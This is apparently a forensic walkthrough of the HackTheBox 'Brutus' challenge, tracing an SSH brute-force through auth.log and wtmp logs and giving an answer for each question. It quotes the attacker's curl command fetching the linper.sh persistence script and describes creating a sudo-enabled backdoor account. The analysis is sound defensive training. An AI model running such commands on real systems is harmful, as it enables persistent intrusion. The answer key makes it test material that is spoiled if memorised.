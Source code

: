 # Brutus
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/332c0735-36c7-4419-8b0a-c3bd0e6699f2)


## Lessons Learned:
- Reviewing UNIX auth.log.
- Identifying the suspect's IP.
- Identify the timestamp for initial manual account logged in / manual entry.
- Reviewing wtmp log file.

## SCENARIO:
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## STEPS:
1. In this task we're given a unix auth.log and wtmp logs.

#### Notes:

```
WTMP is a system log file in Unix and Unix-like operating systems. The wtmp file records all user logins and logouts.
It's located in the /var/log directory in most Unix systems.
```

> 1ST QUESTION --> ANS: 65.2.161.68

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7af97fb5-68f5-418a-898a-cde091decf5e)


2. Upon reviewing the log traffic, we can identify 2 IPs. Those are `203.101.190.9` and `65.2.161.68`.
3. Noticed the first IP tried to login as **root** and is authenticated at `06:19:54`. It's only 1 attempt, could means a normal user or the rightful owner of the account.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b0d7435-4d0b-4228-a491-c7d07dee7632)


4. For the second IP, it tried few attempts to login as **admin(?)** from `06:31:31`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/57da3c0c-c873-463d-90a2-e44f66ccd9e5)


5. Checking for the IP's reputation, found it's marked as suspicious but not marked as abuse IP.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd72441a-091b-42a2-bcbc-323e81cb013c)


6. However the IP resulting in massive failed login attempt which leads to a security concern. Hence can be marked as the suspect.

> 2ND QUESTION --> ANS: root

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4b3119b-f1a6-48e8-b4ec-5c689da1984a)


7. Further analysis, found the initial attempt from the suspect IP for root account login.
8. Noticed, after several bruteforce attempts, the suspect finally authenticated as root at `06:31:40` then logout again not long.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/12ed629d-a2ac-46f4-9480-17b6721e7495)


> 3RD QUESTION --> ANS: `06:32:45`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/110ca3ed-445d-435a-9b97-d24c45ba47fd)

9. To identify the initial manual entry is quite tricky. If we analyze further, we shall identified that the attacker did a manual login to `root` user at `06:32:44`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c6364eb9-ed9e-42de-b486-f60b45528c07)


10. However, the `06:32:44` is the timestamp for the attempt for successfull login.
11. So the timestamp for the account's access should be at `06:32:45`.



> 4TH QUESTION --> ANS: 37

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9357b082-412e-4fe2-8418-9770175aa017)


12. After the attacker did a manual login to the root account, a new session number is created. It's **37**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8536251c-673e-4e93-80a0-fd97a4868b0d)



> 5TH QUESTION --> ANS: cyberjunkie

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/66eb2ed9-d302-4e9b-b3f2-367dcc8ecb67)


13. For the lateral movement, the attacker created a new user and new group named **cyberjunkie**.
14. Then the attacker also add **cyberjunkie** to the **sudo** group so it can execute sudo permissions or open any files that requires sudo.

> 6TH QUESTION --> ANS: T1136.001

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ccabb66-c177-4d59-9657-e2e411f6dbd7)


15. Searching on the internet about MITRE ATT&CK, we can identify that **persistence** has several tech and sub tech.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df6453d-fdf9-4ff3-983b-a40a41468328)


16. Judging from what the attacker did, the correct one should be the **Create Account** technique with **Local Account** as it's sub-technique.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/51fa79a9-78fe-47eb-a1eb-ae06959b5414)


> 7TH QUESTION --> ANS: 279

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4dffcc64-f4c4-48d9-b674-1e7c3140be20)


17. Upon reviewing the wtmp log file, we're sure that the attacker's session for the root account is destroyed at `06:37 (UTC+8)`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e5812d75-f4dc-497a-b3b7-f43175052b64)


18. To identify the **second** time, review the auth.log which states **remove session** or **close session**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/104a386a-b581-4009-a58d-6d1065760940)


19. Then to calculate the session should be a cumulative time from:

```
06:32:45 - 06:37:24 --> 279 seconds.
```

> 8TH QUESTION --> ANS: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e2e4ac94-d7a5-48ec-af40-ea78df85b254)


20. Furthermore the attacker logged in to the server as **cyberjunkie** and executed sudo command at `06:39:38`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e10dc690-63a9-4fca-ab48-ff2be7eda996)


## IMPORTANT LINKS

```
https://attack.mitre.org/techniques/T1136/
```
